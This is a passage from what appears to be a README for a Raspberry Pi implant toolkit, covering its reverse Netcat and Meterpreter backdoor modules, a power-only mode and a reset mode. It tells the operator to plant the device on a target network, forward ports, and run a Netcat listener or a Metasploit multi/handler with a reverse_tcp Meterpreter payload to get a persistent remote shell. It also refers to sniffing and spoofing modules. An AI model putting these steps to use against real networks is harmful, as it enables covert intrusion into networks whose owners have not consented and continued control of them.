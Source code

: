 ### Reverse Netcat
This is another backdoor module but instead of using ssh it uses Netcat which is a very simple TCP/UDP networking communication program. It allows us to create a very simple reverse TCP backdoor.

To use this module you will also have to set up port forwarding [Tutorial Here](http://www.wikihow.com/Set-Up-Port-Forwarding-on-a-Router).
Once this is done on your desired port you will want to run the module from main.py
When it asks for Destination you should enter the IP address of your router that has port forwarding enabled on it.
When it asks for the port you should set it to your desired port that is being port forwarded.
Once you have done this after planting the device  on the network you want you should run this command on your computer to set up the Netcat listener.
```nc -l -v -p (desired port)```
Now as long as the Pi has power you will receive a connection and have a shell.
Again this module is persistent therefore if you close the session you will be able to run the listener command again and open a new session.

### Reverse TCP Meterpreter
Another backdoor module this uses Metasploits multi handler to establish a reverse TCP Meterpreter backdoor. Once again you may need to port [port forward](http://www.wikihow.com/Set-Up-Port-Forwarding-on-a-Router)
To use it you just run the module from main.py
Select the Destination IP which is the computer that has Metasploit installed.
Select the  desired port which you will be listening on.
Now the Raspberry Pi will be armed you just have to set up the listener.
To do this start Metasploit ```msfconsole```
Now run ```use exploit/multi/handler```
Now run ```set payload python/meterpreter/reverse_tcp```
Now run ```set lhost (to your local IP)``` Your local IP can be found by typing ```ifconfig``` into your Terminal
Now run ```set lport (to the port that you want to listen on)``` This port must be the same as whichever port you are port forwarding
Now run ```exploit``` and you should see that you have began listening for connections. If the Raspberry Pi is turned on you will see after a short time you will have a Meterpreter backdoor and be able to control the Pi.

### Power Only
This module can be used if you do not want the target computer to have internet you only want the Raspberry pi to act as a backdoor into a network. This module still allocates an IP address to the connected computer and it will still show up as an Ethernet gadget however the internet connection will not be bridged. By still allowing the Pi to assign the connected computer an IP address it allows the Pi to still be programmed over USB therefore once you have used this module and want to change what the Pi is going to do you can still ssh into it with the IP address 192.168.220.1.
Another alternative to using this module would be to switch the micro USB port the micro USB to USB cable is plugged into however if you have soldered the micro USB to USB cable in place this is not possible therefore this module would allow for power only.

When using this module you will not be able to use the modules: Password Sniffing or DNS Spoofing with or without DNSMASQ. However you will still be able to ARP Spoof a network.

To run this module you just select and run it from main.py

### Reset to Default
This module resets the Pi so that it only acts as a USB to Ethernet adaptor. It will set the Pi to its default so that on the next boot there will be no other modules running.

To run this you just select it from main.py

## Donate maybe?
I hope I have explained how to run each module and what they do.
I apologise for the rubbish coding techniques and concepts.

```